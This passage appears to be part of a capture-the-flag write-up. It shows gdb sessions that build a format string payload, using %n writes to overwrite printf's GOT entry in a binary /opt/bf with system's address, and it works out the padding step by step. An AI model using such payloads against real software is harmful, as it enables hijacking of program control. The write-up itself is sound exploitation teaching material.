 ```bash
(gdb) run "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "%16$n")])')#"
Starting program: /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "%16$n")])')#"

Breakpoint 1, 0x080486eb in main ()

(gdb) x/x 0x08049a48
0x8049a48 <printf@got.plt>: 0x00000004
(gdb)
```

Oooooooooooh. So basically 0x8049a48 now says `printf` lives at 0x00000004. Not entirely true though, but we will fix this. Fixing this is quite easy too. Using some python again, we can calculate the amount of bytes we must write to get the memory location we want. We know we want to write to `system`, that lives in memory at 0x40062000. We will split the calculation up into 2 parts, and first write the 0x2000, and then the 0x4006. We can see that we have written 4 bytes already, so to calculate the first part, we will simply subtract 4 from 0x2000 and pad parameter 16 with the amount.

```bash
(gdb) shell echo $(python -c 'print 0x2000-0x4')
8188 # output is a decimal value
```

We now pad the format string as required, re-run the program in `gdb`, and inspect 0x08049a48 from the GOT

```bash
(gdb) run "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "%8188u%16$n")])')#"
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "%8188u%16$n")])')#"
H�
Breakpoint 1, 0x080486eb in main ()
(gdb) x/x 0x08049a48
0x8049a48 <printf@got.plt>: 0x00002000
(gdb)
```

You will see some whitespace output as a result of the `%8188u`, but inspecting the pointer from GOT reveals that we have the lower part of the memory now set correctly (0x00002000)! :) The upper part of the address is calculated in a similar way, however, we are going to be moving on 2 places in memory to write this value and provide another format string. This means that our lower part of the memory will change as a result, and we will need to compensate for that when we calculate the upper part.

```bash
(gdb) run "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "\x4a\x9a\x04\x08" + "%8188u%16$n" + "%17$n")])')#"
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/bf "$(python -c 'print ">".join(["+" * ord(x) for x in ("\x48\x9a\x04\x08" + "\x4a\x9a\x04\x08" + "%8188u%16$n" + "%17$n")])')#"
H�J�                                                                                                                                                                                                              3
Breakpoint 1, 0x080486eb in main ()
(gdb) x/x 0x08049a48
0x8049a48 <printf@got.plt>: 0x20042004
(gdb)
```
